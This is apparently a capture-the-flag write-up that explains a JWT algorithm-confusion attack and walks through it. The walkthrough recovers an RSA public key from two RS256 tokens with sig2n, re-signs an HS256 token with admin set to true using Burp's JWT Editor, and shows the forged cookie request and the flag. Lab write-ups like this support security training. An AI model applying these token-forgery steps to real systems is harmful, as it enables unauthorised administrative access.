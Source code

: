# CTFkom 03.09.2025 - Writeup Asymmetric JWT

# Objective and scope

The target application at `http://129.241.150.108:30005` uses a `jwt` cookie for session handling. The objective was to assess and exploit the session handling in order to forge an administrative token and reach the protected endpoint `/flag/`.

# How do Key Confusion Attacks Work

JSON Web Tokens encode a header, a payload, and a signature. RS256 uses an RSA private key for signing and an RSA public key for verification. HS256 uses an HMAC secret for both signing and verification. If a verifier accepts the token’s `alg` header and reuses RSA public-key material as an HMAC secret, an attacker who knows the public key can sign HS256 tokens that the server will accept as authentic. This is then called a key confusion attack. The key questions are whether the public key can be recovered, and which exact byte representation the verifier treats as the HMAC secret, because flawed implementations vary between SubjectPublicKeyInfo, PKCS#1, DER bytes, or even literal PEM text.

# Collected material

An RS256 JWT was observed in traffic and used as input for public-key recovery:

```
eyJhbGciOiJSUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6InRlc3QiLCJhZG1pbiI6ZmFsc2UsImV4cCI6MTc1NjkyMzkxNywiZGF0ZV9vZl9iaXJ0aCI6IiJ9.wL0y3OEdqPzEQUYhEfFgETAGuVlysnPbgf6molGDCG8FMkGUvhy24_w8O1jljJ-V5hmY2U6xjqTGtpvMgzG44g
```

When decoding the token, we see the following content inside of the JWT:

```json
{
  "alg": "RS256",
  "typ": "JWT"
}
{
  "username": "test",
  "admin": false,
  "exp": 1756923917,
  "date_of_birth": ""
}
```

The important value is the “admin” boolean, which shows the server if a user has administrative permissions to access the /flag/ endpoint.

So the goal is to forge a token that sets the “value” to `true` and have a valid expiration date and a valid signature. Since this token is using asymmetric algorithms to for signature verification, we cannot just bruteforce the secret. Usually, the first things that comes to mind is a key confusion attack. This type of attack is described at the beginning of the writeup.

Do perform such an attack, a second RS256 token with a slightly different payload was captured to improve recovery:

```
eyJhbGciOiJSUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6InRlc3QxMjMiLCJhZG1pbiI6ZmFsc2UsImV4cCI6MTc1NjkyNDAzMiwiZGF0ZV9vZl9iaXJ0aCI6IiJ9.vUsAqmHufwd7YoREteaxxx9LMPp_fNdPWV7XbWjoOn8gO7kRlz8E9s1EVbT1xetuTB0LHYXxMW2z33c9Pd4E7g
```

# Public-key recovery and initial acceptance test

Since the public key is not hosted publicly (or at least it’s hidden very well), we need to reconstruct the public key. PortSwigger’s `sig2n` was used to reconstruct the RSA public key and emit candidate HS256 tokens. This is the only helper command that was required:

```bash
docker run --rm -it portswigger/sig2n <token1> <token2>
```

Relevant terminal output:

```
Running command: python3 jwt_forgery.py <token1> <token2>

Found n with multiplier 1:
    Base64 encoded x509 key: LS0tLS1---[snip]---tLS0tRU5EIFBVQkxJQyBLRVktLS0tLQo=
    Tampered JWT: eyJhbGciOiJ---[snip]---fYqUsPY
    Base64 encoded pkcs1 key: LS0---[snip]---S0VZLS0tLS0K
    Tampered JWT: eyJhbGci---[snip]---eAibOmH_zyg-w

Found n with multiplier 2:
    Base64 encoded x509 key: LS0tLS1C---[snip]---VQkxJQyBLRVktLS0tLQo=
    Tampered JWT: eyJhbGciOi---[snip]---qfsOmB_tqg
    Base64 encoded pkcs1 key: LS0tLS1CRUdJTiBSU0EgUFVCTElDIEtFWS0tLS0tCk1FZ0NRUURIeXNSeEFBNFZGdHNZVW5KRUFSc1JINDZQVmtLeWcwL0lRTW9yTk1CY01qK3A2Y0VoZEJKdmNzSDEKanE1dUpYWTJOWDQvellOeUg4djRzNW5rUzM2dEFnTUJBQUU9Ci0tLS0tRU5EIFJTQSBQVUJMSUMgS0VZLS0tLS0K
    Tampered JWT: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ICJ0ZXN0IiwgImFkbWluIjogZmFsc2UsICJleHAiOiAxNzU3MDA5ODY0LCAiZGF0ZV9vZl9iaXJ0aCI6ICIifQ.z4pUOUyrCJFInLoXXyBIPbl7_T25t5IWbB732uLCHPE
```

The script found two different multipliers, so I just tried all the tokens (Tampered JWT) and sent them to the server. The last “tampered” HS256 token was accepted by the server rather than causing a redirect, which proved algorithm confusion and indicated that the verifier reused public-key material as an HMAC secret. So the PKCS#1 RSA PUBLIC KEY PEM text bytes from the “multiplier 2” value are considered valid. This matters because the exact bytes used as the HMAC secret must match the verifier’s expectation.

# Determining the Exact Secret Bytes

The sig2n line labeled “Base64 encoded pkcs1 key” for multiplier 2 is the base64 of the RSA PUBLIC KEY PEM text. Decoding it yields the full `-----BEGIN RSA PUBLIC KEY-----` block with header, footer, and line breaks. The verifier treated those literal PEM bytes as the HMAC secret, not DER, not SPKI, and not x509.

# Burp Suite Exploitation Using JWT Editor

This attack can be performed entirely in Burp by registering the correct symmetric key and letting the extension re-sign the token. We need the JWT Editor extension in burp to perform this attack.

The following base64 value can be used in the k value in the JWT token (this is the public key that we reconstructed earlier):

```
LS0tLS1CRUdJTiBSU0EgUFVCTElDIEtFWS0tLS0tCk1FZ0NRUURIeXNSeEFBNFZGdHNZVW5KRUFSc1JINDZQVmtLeWcwL0lRTW9yTk1CY01qK3A2Y0VoZEJKdmNzSDEKanE1dUpYWTJOWDQvellOeUg4djRzNW5rUzM2dEFnTUJBQUU9Ci0tLS0tRU5EIFJTQSBQVUJMSUMgS0VZLS0tLS0K
```

In Burp Suite, the attack can now be done. Here are the exact steps to forge a token and sign it using the public key:

1. Open the JWT Editor Key**s** tab. Click New Symmetric Key. Set `kty` to `oct`. Set `k` to the public key that’s base64 encoded. Optionally set a `kid`, but this is not required. Save the key.
2. Send a request that carries the `jwt` cookie to Repeater. Select that request and open the JSON Web Token tab for the cookie value.
3. Edit the JWT header so that `alg` is `HS256` and `typ` is `JWT`.
4. Edit the payload to include the intended claims. Use at least `{"username":"test","admin":true,"exp":<fresh-epoch>,"date_of_birth":""}`. The exp can be calculated using this website [https://www.unixtimestamp.com/](https://www.unixtimestamp.com/)
5. Click **Sign** and choose the symmetric key created in the JWT Editor Keys tab. Burp replaces the signature with a valid HS256 HMAC using the registered key.
6. Send the request to `/flag/`. 

The endpoint shows a 200 status code and shows the flag. The full request and response is shown in the next chapter.

# Access to the Protected Resource and Flag

With the forged token set in the `jwt` cookie, `/flag/` returned HTTP 200 and the flag was present in the response. Here is the request that was being used request:

```
GET /flag/ HTTP/1.1
Host: 129.241.150.108:30005
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Referer: http://129.241.150.108:30005/home/
Cookie: jwt=**eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6InRlc3QiLCJhZG1pbiI6dHJ1ZSwiZXhwIjoxNzU3MDExMTc2LCJkYXRlX29mX2JpcnRoIjoiIn0.n7ShzBoadFfV-fhkE6RvtcNWO9KBm56qXGg65iPuW_g**
Upgrade-Insecure-Requests: 1
Priority: u=0, i
```

The result was a HTTP 200 with the flag in the response body. This confirms that the server validated a HS256 signature produced with the PKCS#1 PEM text secret and accepted the administrative claim.

![image.png](image.png)

The flag is:

```
CTFkom{ddaf66f1b50d425e7d68ad930ae563a}
```

# Conclusion

The verifier accepted the token’s `alg` header and reused RSA public-key material as an HMAC secret. The exact secret matched the decoded PKCS#1 RSA PUBLIC KEY PEM text bytes from `sig2n` multiplier 2. Constructing and signing an HS256 token with `admin: true` and a valid expiry in Burp’s JWT Editor yielded HTTP 200 on `/flag/`.

This proves that there is a key confusion vulnerability in the token verifier which can be abused to forge tokens with administrative access.